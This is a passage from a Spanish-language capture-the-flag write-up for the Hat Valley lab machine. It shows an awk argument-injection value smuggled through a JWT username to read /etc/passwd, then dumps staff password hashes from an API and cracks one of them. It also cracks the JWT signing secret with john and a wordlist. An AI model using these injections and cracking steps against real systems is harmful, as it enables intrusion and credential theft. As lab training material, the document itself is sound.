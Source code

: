 Segun esto la cookie tiene el campo username y de ahi saca el usaurio y se lo pasa al comando awk de bash.
Pero pasa evitar "SO command inyection" filtra caracteres especiales como la ";" AWK es un comando para filtrar cosas en un archivo.

```console
└─$ echo "cucuxii123 456" > prueba # Prueba equivale al "/var/www/private/leave_requests.csv"
└─$ awk '/cucuxii/' ./prueba   # -> cucuxii123 456
└─$ awk /etc/passwd ./prueba # cucuxii123 456
└─$ awk // cucuxii ./prueba  # No existe el archivo "cucuxii"
└─$ awk /etc/passwd ./prueba   # queda como "awk '//etc/passwd/' ./prueba" -> error

# Hay que quitar las dos comas que nos pone al principio y final con los "'"
└─$ awk '/' /etc/passwd '/' ./prueba # -> error
└─$ awk '//' /etc/passwd '/' ./prueba  # -> todo el /etc/passwd
```
Por tanto el username tiene que ser ```/' /etc/passwd '``` Pero sin el secreto no podemos crear cookies.

--------------------------------------------
## Part 4: Consiguiendo la llave la cookie

```console
└─$ curl -s 'http://hat-valley.htb/api/staff-details' | jq 
  { "username": "christine.wool",
    "password": "6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649",},
  { "username": "christopher.jones",
    "password": "e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1",},
  { "username": "jackson.lightheart",
    "password": "b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436",},
  { "username": "bean.hill",
    "password": "37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f",}
```
Los pasamos al crackstation (sha256)
Solo conseguimos romper el de Crhis Jones  ("e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1",)
Que queda en "chris123"

Pero no sirven para store.hat-valley.htb ```curl -s http://store.hat-valley.htb -u "christopher.jones:chris123"```
Pero en la pagina de hr si haces logout y te vuelves a conectar como el tio este ya entras.

Su cookie es:
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjc1NjgwNDcwfQ.1lRSAkmfilspBEASNzPB8qnd1QomSFaDdCvWwAro9iw
```

Sacamos el secreto para crear cookies...
```console
└─$ ./jwt2john.py "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c..." > hash
└─$ john -w=/usr/share/wordlists/rockyou.txt hash  # 123beany123      (?)
```

--------------------------------------------
## Part 5: LFI mediante la cookie
